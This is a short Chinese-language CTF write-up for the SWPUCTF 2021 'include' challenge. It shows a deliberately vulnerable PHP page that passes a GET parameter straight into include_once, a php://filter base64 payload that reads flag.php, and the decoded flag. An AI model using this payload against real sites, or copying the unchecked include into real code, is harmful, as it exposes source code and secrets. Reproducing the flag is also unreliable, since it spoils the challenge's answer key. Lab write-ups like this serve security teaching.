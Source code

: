 ```yaml
---
title: '[SWPUCTF 2021 新生赛]include'
date: '2025-05-02T19:27:27+08:00'
weight: 
draft: false
description: '[SWPUCTF 2021 新生赛]include'
---
```


**提示：** 传入一个file试试

根据提示传入 GET 参数 `?file=`，存在任意文件包含漏洞：`include_once($file);`

```php
<?php
ini_set("allow_url_include","on");
header("Content-type: text/html; charset=utf-8");
error_reporting(0);
$file=$_GET['file'];
if(isset($file)){
    show_source(__FILE__);
    echo 'flag 在flag.php中';
}else{
    echo "传入一个file试试";
}
echo "</br>";
echo "</br>";
echo "</br>";
echo "</br>";
echo "</br>";
include_once($file);
?> flag 在flag.php中
```

**提示：** flag 在flag.php中

利用 PHP 伪协议读取 `flag.php` 的文件源码

```text
/?file=php://filter/read=convert.base64-encode/resource=flag.php
```

对 base64 编码的 `flag.php` 进行解码

```text
PD9waHANCiRmbGFnPSdOU1NDVEZ7MWJmNDE3YTctY2NjMy00NjkyLTk5OWQtNjMzNjhjODEyZjU1fSc7
```

```php
<?php
$flag='NSSCTF{1bf417a7-ccc3-4692-999d-63368c812f55}';
```
